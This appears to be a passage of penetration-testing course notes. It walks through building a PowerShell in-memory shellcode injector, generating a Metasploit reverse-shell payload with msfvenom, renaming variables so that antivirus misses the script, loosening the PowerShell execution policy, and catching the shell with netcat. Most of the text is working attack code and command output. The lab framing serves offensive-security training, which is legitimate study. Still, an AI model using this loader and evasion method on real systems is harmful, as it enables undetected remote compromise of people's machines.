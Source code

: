 A basic templated script that performs in-memory injection

> The script starts by importing VirtualAlloc4 and CreateThread5 from kernel32.dll
> as well as memset from msvcrt.dll. These functions will allow us to allocate memory,
> create an execution thread, and write arbitrary data to the allocated memory,
> respectively. Once again,notice that we are allocating the memory and
> executing a new thread in the current process (powershell.exe), rather than a remote one.

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

> The script main logic starts by allocating a block of memory
> using VirtualAlloc, which takes each byte of the payload stored in the
> $sc byte array and writes it to our newly-allocated memory block using memset.

> As a final step, our in-memory written payload is executed in a separate thread using the CreateThread API.

Our chosen payload is missing from our script, but can be generated using msfvenom. We are going to keep the payload identical to the one used in previous tests for consistency.

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc
...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 699 bytes
Final size of powershell file: 3454 bytes
[Byte[]] $sc =  0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28
```

> According to the results of the VirusTotal scan, 28 of the 59 AV products flagged our script as malicious, including Avira. This is not as promising as expected, so we need to somewhat circumvent the AV signature logic.
> To bypass this detection logic, let's give the variables of the previous script more generic names.

```
$var2 = Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

[Byte[]];   
[Byte[]] $var1 = 0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28
...

$size = 0x1000;

if ($var1.Length -gt 0x1000) {$size = $var1.Length};

$x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

$var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

> We have updated our script by changing the Win32 hard-coded class name for the Add-Type cmdlet to iWin32. Similarly, we have renamed sc and winFunc to var1 and var2, respectively.

> Once we save the PowerShell script as bypass.ps1 and transfer it over the target Windows 11 client, we can run a Quick Scan to verify that our attack vector is undetected. To run the scan, we'll click on the Security option on the left hand menu, select Virus Scans, and then click on Scan under the

Let's run bypass.ps1 and analyze the output.

```
PS C:\Users\offsec\Desktop> .\bypass.ps1
.\bypass.ps1 : File C:\Users\offsec\Desktop\bypass.ps1 cannot be loaded because running scripts is disabled on this
system. For more information, see about_Execution_Policies at https:/go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ .\bypass.ps1
+ ~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess
```

> Unfortunately, when we attempt to run our malicious script, we are presented with an error that references the Execution Policies of our system, which appear to prevent our script from running.
> A quick review of the Microsoft documentation on PowerShell execution policies (linked in the error message), shows that these policies are set on a per-user rather than per-system basis.
> Keep in mind that much like anything in Windows, the PowerShell Execution Policy settings can be dictated by one or more Active Directory GPOs.6 In those cases, it may be necessary to search for additional bypass vectors.

Let's attempt to view and change the policy for our current user. Please note that in this instance, we have chosen to change the policy globally rather than on a per-script basis, which can be achieved by using the -ExecutionPolicy Bypass flag for each script when it is run.

First, we are going to retrieve the current execution policy via the Get-ExecutionPolicy -Scope CurrentUser command and then set it to Unrestricted via the Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser command.

```
PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Undefined

PS C:\Users\offsec\Desktop> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help Module at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A

PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Unrestricted
```

> The listing above shows that we have successfully changed the policy for our current user to Unrestricted.

Before executing our script, we will start a Netcat listener on our Kali attacker machine to interact with our shell.

```
kali@kali:~$ nc -lvnp 443
listening on [any] 443 ...


PS C:\Users\offsec\Desktop> .\bypass.ps1

IsPublic IsSerial Name                                     BaseType
-------- -------- ----                                     --------
True     True     Byte[]                                   System.Array
124059648
124059649
...
```

The script executes without any problems and we receive a reverse shell on our attack machine.

```
kali@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.50.1] from (UNKNOWN) [192.168.50.62] 64613
Microsoft Windows [Version 10.0.22000.675]
(c) Microsoft Corporation. All rights reserved.

C:\Users\offsec>whoami
whoami
client01\offsec

C:\Users\offsec>hostname
hostname
client01
```

> This means we have effectively evaded Avira detection on our target. In mature organizations, various machine learning7 software can be implemented that will try to analyze the contents of the scripts that are run on the system. Depending on the configuration of these systems and what they consider harmful, scripts like the one above may need to be altered or adapted for the target environment.
> Additionally, when implemented correctly with a skilled operations center, EDR systems could just silently alert the SOC team and thus, render our attack useless in a matter of minutes.**strong text**